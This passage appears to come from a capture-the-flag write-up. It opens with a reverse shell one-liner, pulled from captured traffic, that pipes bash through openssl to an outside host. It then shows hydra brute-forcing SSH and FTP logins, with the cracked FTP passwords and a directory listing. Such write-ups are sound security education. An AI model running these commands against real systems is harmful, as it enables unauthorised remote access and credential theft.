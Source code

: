 ```

mkfifo /tmp/rH7dQR; /bin/bash -i 2>&1 < /tmp/rH7dQR | openssl s_client -quiet -connect 10.0.2.19:4445 > /tmp/rH7dQR; rm /tmp/rH7dQR
depth=0 C = AU, ST = Some-State, O = Internet Widgits Pty Ltd
verify error:num=18:self signed certificate
verify return:1
depth=0 C = AU, ST = Some-State, O = Internet Widgits Pty Ltd
verify return:1

```

Streams 27 and 28 are the two `wget` requests for `Makefile` and `root.c`. `Makefile` is a standard Makefile, but `root.c` is interesting. I’ll come back to that later. Stream 29 is an encrypted connection, on 4445, so the `openssl` command from the end of 26.

### FTP Creds Check

The email said one pair of creds would work, but I want to check all the creds I have here. I’ll use `hydra` to check them for ssh and ftp.

```

root@kali# hydra -L users -P passwords 10.10.10.155 -t 4 ssh

[DATA] max 4 tasks per 1 server, overall 4 tasks, 21 login tries (l:7/p:3), ~6 tries per task
[DATA] attacking ssh://10.10.10.155:22/
1 of 1 target completed, 0 valid passwords found

Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-08-25 12:23:50
root@kali# hydra -L users -P passwords 10.10.10.155 -t 4 ftp

[DATA] max 4 tasks per 1 server, overall 4 tasks, 21 login tries (l:7/p:3), ~6 tries per task
[DATA] attacking ftp://10.10.10.155:21/
[21][ftp] host: 10.10.10.155   login: ib01c01   password: GetYouAH4t!
[21][ftp] host: 10.10.10.155   login: ib01c03   password: Thi$sh1tIsN0tGut
[21][ftp] host: 10.10.10.155   login: ib01ftp   password: YhgRt56_Ta
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-08-25 12:24:09

```

Nothing on ssh, but three matches on ftp.

Access as ib01c03 doesn’t seem to give me any more access than I already have with my shell.

### FTP as ib01c01

I can connect as ib01c01, and I’m in that user’s home directory. I can see the `www` folder for the hats site, as well as `access.txt` and `user.txt`:

```

ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-------    1 1001     1004           32 Jan 30  2019 access.txt
-rw-r--r--    1 1001     1004     68175351 Dec 07  2018 prestashop_1.7.4.4.zip
-rw-r-----    1 0        1004           33 Dec 07  2018 user.txt
drwxr-xr-x   26 1001     1004         4096 Dec 10  2018 www
226 Directory send OK.

```
